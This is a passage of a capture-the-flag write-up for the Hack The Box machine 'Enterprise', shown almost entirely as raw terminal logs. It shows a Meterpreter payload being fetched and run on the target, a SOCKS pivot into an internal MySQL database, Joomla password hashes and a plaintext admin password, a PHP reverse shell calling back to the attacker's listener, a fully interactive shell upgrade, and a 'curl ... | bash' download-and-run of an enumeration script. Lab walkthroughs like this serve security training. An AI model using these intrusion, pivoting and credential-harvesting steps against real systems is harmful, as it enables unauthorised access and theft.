10.10.10.61 - - [30/May/2018 01:56:43] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:24] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:52] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:10:33] "GET /msf.bin HTTP/1.1" 200 -
```

```sh
$ cd /dev/shm
$ pwd
/dev/shm
$ curl http://10.10.14.16:8000/msf.bin -o msf.bin
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   247  100   247    0     0    420      0 --:--:-- --:--:-- --:--:--   420
$ ls -l msf.bin
-rw-rw-rw- 1 www-data www-data 247 May 30 06:10 msf.bin
$ chmod +x msf.bin
$ ./msf.bin
/bin/sh: 16: ./msf.bin: Permission denied
$ mount | grep dev
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (ro,nosuid,nodev,noexec,relatime,hugetlb)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
/dev/mapper/enterprise--vg-root on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /var/www/html type ext4 (rw,relatime,errors=remount-ro,data=ordered)
$
$ mv msf.bin /tmp/
$ cd /tmp/
$ ./msf.bin
```

```sh
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.16:8002
msf exploit(multi/handler) > [*] Sending stage (812100 bytes) to 10.10.10.61
[*] Meterpreter session 1 opened (10.10.14.16:8002 -> 10.10.10.61:59154) at 2018-05-30 02:12:39 -0400

msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                    Connection
  --  ----  ----                   -----------                                    ----------
  1         meterpreter x64/linux  uid=33, gid=33, euid=33, egid=33 @ 172.17.0.3  10.10.14.16:8002 -> 10.10.10.61:59154 (172.17.0.3)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
meterpreter > portfwd add -l 8003 -p 3306 -r 172.17.0.2
[*] Local TCP relay created: :8003 <-> 172.17.0.2:3306
meterpreter >
```

```sh
root@kali:~/enterprise# curl localhost:8003 -o tmp
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   104    0   104    0     0    124      0 --:--:-- --:--:-- --:--:--   124
root@kali:~/enterprise# cat tmp
5.7.195�"!@A8x���6kA'.4]c%n|0mysql_native_password��Got packets out of order
root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# tail /etc/proxychains.conf
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 1080

root@kali:~/enterprise#
```

```sh
meterpreter > portfwd add -l 8003 -p 3306 -r 172.17.0.2
[*] Local TCP relay created: :8003 <-> 172.17.0.2:3306
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > search socks
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                     Disclosure Date  Rank    Description
   ----                                     ---------------  ----    -----------
   auxiliary/scanner/http/sockso_traversal  2012-03-14       normal  Sockso Music Host Server 1.5 Directory Traversal
   auxiliary/server/socks4a                                  normal  Socks4a Proxy Server
   auxiliary/server/socks_unc                                normal  SOCKS Proxy UNC Path Redirection


msf exploit(multi/handler) > use auxiliary/server/socks4a
msf auxiliary(server/socks4a) > show options

Module options (auxiliary/server/socks4a):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy


msf auxiliary(server/socks4a) > route add 172.17.0.2/24 1
[*] Route added
msf auxiliary(server/socks4a) > run
[*] Auxiliary module running as background job 1.

[*] Starting the socks4a proxy server
msf auxiliary(server/socks4a) >
```

```sh
root@kali:~/enterprise# proxychains mysql -u root -p -h 172.17.0.2
ProxyChains-3.1 (http://proxychains.sf.net)
Enter password:
|S-chain|-<>-127.0.0.1:1080-<><>-172.17.0.2:3306-<><>-OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 33335
Server version: 5.7.19 MySQL Community Server (GPL)

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| joomladb           |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
| wordpressdb        |
+--------------------+
8 rows in set (0.44 sec)

MySQL [(none)]> use joomla;
Database changed
MySQL [joomla]> show tables;
Empty set (0.43 sec)

MySQL [joomla]> use joomladb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [joomladb]> show tables;
+-------------------------------+
| Tables_in_joomladb            |
+-------------------------------+
| edz2g_assets                  |
| edz2g_associations            |
| edz2g_banner_clients          |
| edz2g_banner_tracks           |
| edz2g_banners                 |
| edz2g_categories              |
| edz2g_contact_details         |
| edz2g_content                 |
| edz2g_content_frontpage       |
| edz2g_content_rating          |
| edz2g_content_types           |
| edz2g_contentitem_tag_map     |
| edz2g_core_log_searches       |
| edz2g_extensions              |
| edz2g_fields                  |
| edz2g_fields_categories       |
| edz2g_fields_groups           |
| edz2g_fields_values           |
| edz2g_finder_filters          |
| edz2g_finder_links            |
| edz2g_finder_links_terms0     |
| edz2g_finder_links_terms1     |
| edz2g_finder_links_terms2     |
| edz2g_finder_links_terms3     |
| edz2g_finder_links_terms4     |
| edz2g_finder_links_terms5     |
| edz2g_finder_links_terms6     |
| edz2g_finder_links_terms7     |
| edz2g_finder_links_terms8     |
| edz2g_finder_links_terms9     |
| edz2g_finder_links_termsa     |
| edz2g_finder_links_termsb     |
| edz2g_finder_links_termsc     |
| edz2g_finder_links_termsd     |
| edz2g_finder_links_termse     |
| edz2g_finder_links_termsf     |
| edz2g_finder_taxonomy         |
| edz2g_finder_taxonomy_map     |
| edz2g_finder_terms            |
| edz2g_finder_terms_common     |
| edz2g_finder_tokens           |
| edz2g_finder_tokens_aggregate |
| edz2g_finder_types            |
| edz2g_languages               |
| edz2g_menu                    |
| edz2g_menu_types              |
| edz2g_messages                |
| edz2g_messages_cfg            |
| edz2g_modules                 |
| edz2g_modules_menu            |
| edz2g_newsfeeds               |
| edz2g_overrider               |
| edz2g_postinstall_messages    |
| edz2g_redirect_links          |
| edz2g_schemas                 |
| edz2g_session                 |
| edz2g_tags                    |
| edz2g_template_styles         |
| edz2g_ucm_base                |
| edz2g_ucm_content             |
| edz2g_ucm_history             |
| edz2g_update_sites            |
| edz2g_update_sites_extensions |
| edz2g_updates                 |
| edz2g_user_keys               |
| edz2g_user_notes              |
| edz2g_user_profiles           |
| edz2g_user_usergroup_map      |
| edz2g_usergroups              |
| edz2g_users                   |
| edz2g_utf8_conversion         |
| edz2g_viewlevels              |
+-------------------------------+
72 rows in set (0.40 sec)

MySQL [joomladb]> describe edz2g_users;
+---------------+---------------+------+-----+---------------------+----------------+
| Field         | Type          | Null | Key | Default             | Extra          |
+---------------+---------------+------+-----+---------------------+----------------+
| id            | int(11)       | NO   | PRI | NULL                | auto_increment |
| name          | varchar(400)  | NO   | MUL |                     |                |
| username      | varchar(150)  | NO   | MUL |                     |                |
| email         | varchar(100)  | NO   | MUL |                     |                |
| password      | varchar(100)  | NO   |     |                     |                |
| block         | tinyint(4)    | NO   | MUL | 0                   |                |
| sendEmail     | tinyint(4)    | YES  |     | 0                   |                |
| registerDate  | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| lastvisitDate | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| activation    | varchar(100)  | NO   |     |                     |                |
| params        | text          | NO   |     | NULL                |                |
| lastResetTime | datetime      | NO   |     | 0000-00-00 00:00:00 |                |
| resetCount    | int(11)       | NO   |     | 0                   |                |
| otpKey        | varchar(1000) | NO   |     |                     |                |
| otep          | varchar(1000) | NO   |     |                     |                |
| requireReset  | tinyint(4)    | NO   |     | 0                   |                |
+---------------+---------------+------+-----+---------------------+----------------+
16 rows in set (0.39 sec)

MySQL [joomladb]>
MySQL [joomladb]> select id,username,password,email from edz2g_users;
+-----+-----------------+--------------------------------------------------------------+--------------------------------+
| id  | username        | password                                                     | email                          |
+-----+-----------------+--------------------------------------------------------------+--------------------------------+
| 400 | geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge@enterprise.htb |
| 401 | Guinan          | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | guinan@enterprise.htb          |
+-----+-----------------+--------------------------------------------------------------+--------------------------------+
2 rows in set (0.43 sec)

MySQL [joomladb]>
```

###### Reverse shell on joomla docker

```
http://10.10.10.61:8080/administrator/
```

```
geordi.la.forge
ZD3YxfnSjezg67JZ
```





```
http://10.10.10.61:8080/?cmd=id
```


```sh
root@kali:~/enterprise# nano php-reverse-shell.php
root@kali:~/enterprise# cat php-reverse-shell.php | grep port
// This script will make an outbound TCP connection to a hardcoded IP and port.
$port = 3355;       // CHANGE THIS
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
printit("Successfully opened reverse shell to $ip:$port");
root@kali:~/enterprise#
```


```sh
root@kali:~/enterprise# nc -nlvp 3355
listening on [any] 3355 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.61] 42156
Linux a7018bfdc454 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
 06:56:13 up 2 days,  4:33,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www/html
$ ls -l
total 16976
-rw-r--r--  1 www-data www-data   18092 Aug 14  2017 LICENSE.txt
-rw-r--r--  1 www-data www-data    4874 Aug 14  2017 README.txt
drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 administrator
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 bin
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cache
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cli
drwxr-xr-x 20 www-data www-data    4096 Sep  3  2017 components
-r--r--r--  1 www-data www-data    3053 Sep  6  2017 configuration.php
-rwxrwxr-x  1 www-data www-data    3131 Sep  7  2017 entrypoint.sh
drwxrwxrwx  2 root     root        4096 Oct 17  2017 files
-rw-rw-rw-  1 www-data www-data 5457775 Sep  8  2017 fs.out
-rw-rw-rw-  1 www-data www-data 8005634 Sep  8  2017 fsall.out
-rw-rw-rw-  1 www-data www-data 2044787 Sep  7  2017 goonthen.txt
-rw-r--r--  1 www-data www-data    3005 Aug 14  2017 htaccess.txt
drwxr-xr-x  5 www-data www-data    4096 Sep  6  2017 images
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 includes
-rw-r--r--  1 www-data www-data    1420 Aug 14  2017 index.php
drwxr-xr-x  4 www-data www-data    4096 Aug 14  2017 language
drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 layouts
drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 libraries
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb.php
drwxr-xr-x 26 www-data www-data    4096 Aug 14  2017 media
-rw-rw-rw-  1 www-data www-data 1474911 Sep  7  2017 mod.out
drwxr-xr-x 27 www-data www-data    4096 Aug 14  2017 modules
-rw-rw-rw-  1 www-data www-data  252614 Sep  7  2017 onemoretry.txt
-rw-rw-rw-  1 www-data www-data     793 Sep  8  2017 out.zip
drwxr-xr-x 16 www-data www-data    4096 Aug 14  2017 plugins
-rw-r--r--  1 www-data www-data     836 Aug 14  2017 robots.txt
drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 templates
drwxr-xr-x  2 www-data www-data    4096 Sep  6  2017 tmp
-rw-r--r--  1 www-data www-data    1690 Aug 14  2017 web.config.txt
-rw-r--r--  1 www-data www-data    3736 Sep  6  2017 wordpress-shell.php
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 scope global eth0
       valid_lft forever preferred_lft forever
$ ip neigh
172.17.0.1 dev eth0 lladdr 02:42:9b:22:45:67 REACHABLE
172.17.0.2 dev eth0 lladdr 02:42:ac:11:00:02 STALE
$ cd files
$ ls -l
total 4
-rw-r--r-- 1 root root 1406 Oct 17  2017 lcars.zip
$
```

```sh
root@kali:~/enterprise# nano php-reverse-shell.php
root@kali:~/enterprise# cat php-reverse-shell.php | grep port
// This script will make an outbound TCP connection to a hardcoded IP and port.
$port = 6666;       // CHANGE THIS
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
printit("Successfully opened reverse shell to $ip:$port");
root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.61 - - [30/May/2018 01:56:43] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:24] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:52] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:10:33] "GET /msf.bin HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:53:28] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:56:36] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 03:04:02] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

```sh
$ ls -l
total 4
-rw-r--r-- 1 root root 1406 Oct 17  2017 lcars.zip
$ which wget
$ curl http://10.10.14.16:8000/php-reverse-shell.php -o shell.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5493  100  5493    0     0  15327      0 --:--:-- --:--:-- --:--:-- 15343
$ ls -l
total 12
-rw-r--r-- 1 root     root     1406 Oct 17  2017 lcars.zip
-rw-rw-rw- 1 www-data www-data 5493 May 30 07:03 shell.php
$
```


[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#generatingreverseshellcommands)

```sh
root@kali:~/enterprise# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.61] 36336
Linux enterprise.htb 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 08:05:12 up 2 days,  4:42,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:8f:07:02 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.61/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:fe8f:702/64 scope global mngtmpaddr dynamic
       valid_lft 86291sec preferred_lft 14291sec
    inet6 fe80::250:56ff:fe8f:702/64 scope link
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:9b:22:45:67 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:9bff:fe22:4567/64 scope link
       valid_lft forever preferred_lft forever
5: veth39d9b7b@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether ce:6a:9c:ab:44:8f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::cc6a:9cff:feab:448f/64 scope link
       valid_lft forever preferred_lft forever
7: veth76de2e2@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether 06:05:be:91:4d:78 brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::405:beff:fe91:4d78/64 scope link
       valid_lft forever preferred_lft forever
9: veth08d8094@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether 22:f6:53:ab:72:67 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::20f6:53ff:feab:7267/64 scope link
       valid_lft forever preferred_lft forever
$ ip neigh
10.10.10.2 dev ens33 lladdr 00:50:56:8f:64:fe REACHABLE
172.17.0.4 dev docker0 lladdr 02:42:ac:11:00:04 STALE
172.17.0.3 dev docker0 lladdr 02:42:ac:11:00:03 DELAY
fe80::250:56ff:fe8f:64fe dev ens33 lladdr 00:50:56:8f:64:fe router STALE
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@enterprise:/$ ^Z
[1]+  Stopped                 nc -nlvp 6666
root@kali:~/enterprise# echo $TERM
xterm-256color
root@kali:~/enterprise# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/enterprise# stty raw -echo
root@kali:~/enterprise# nc -nlvp 6666
                                     reset
reset: unknown terminal type unknown
Terminal type? xterm-256color
www-data@enterprise:/$ export SHELL=bash
www-data@enterprise:/$ stty rows 51 columns 204
www-data@enterprise:/$
```

###### Privilege Escalation

```sh
root@kali:~/enterprise# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-05-30 03:11:13--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43488 (42K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  42.47K  --.-KB/s    in 0.03s

2018-05-30 03:11:14 (1.19 MB/s) - ‘LinEnum.sh’ saved [43488/43488]

root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.61 - - [30/May/2018 01:56:43] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:24] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 01:57:52] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:10:33] "GET /msf.bin HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:53:28] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 02:56:36] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 03:04:02] "GET /php-reverse-shell.php HTTP/1.1" 200 -
10.10.10.61 - - [30/May/2018 03:11:44] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@enterprise:/$ curl http://10.10.14.16:8000/LinEnum.sh|bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 43488  100 43488    0     0  42538      0  0:00:01  0:00:01 --:--:-- 42551

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.9

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Wed May 30 08:11:24 BST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux enterprise.htb 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.10.0-37-generic (buildd@lgw01-amd64-021) (gcc version 6.3.0 20170406 (Ubuntu 6.3.0-12ubuntu2) ) #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=17.04
DISTRIB_CODENAME=zesty
DISTRIB_DESCRIPTION="Ubuntu 17.04"
NAME="Ubuntu"
VERSION="17.04 (Zesty Zapus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 17.04"
VERSION_ID="17.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=zesty
UBUNTU_CODENAME=zesty


[-] Hostname:
enterprise.htb


### USER/GROUP ##########################################
[-] Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
jeanlucpicard    tty1                      Thu Jan 18 14:55:50 +0000 2018


[-] Who else is logged on:
 08:11:24 up 2 days,  4:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(messagebus) gid=109(messagebus) groups=109(messagebus)
uid=107(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=108(uuidd) gid=113(uuidd) groups=113(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=110(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=111(pollinate) gid=1(daemon) groups=1(daemon)
uid=1000(jeanlucpicard) gid=1000(jeanlucpicard) groups=1000(jeanlucpicard),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),115(lpadmin),116(sambashare)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(jeanlucpicard) gid=1000(jeanlucpicard) groups=1000(jeanlucpicard),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),115(lpadmin),116(sambashare)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:109::/var/run/dbus:/bin/false
lxd:x:107:65534::/var/lib/lxd/:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
jeanlucpicard:x:1000:1000:jeanlucpicard,,,:/home/jeanlucpicard:/bin/bash


[-] Super user account(s):
root


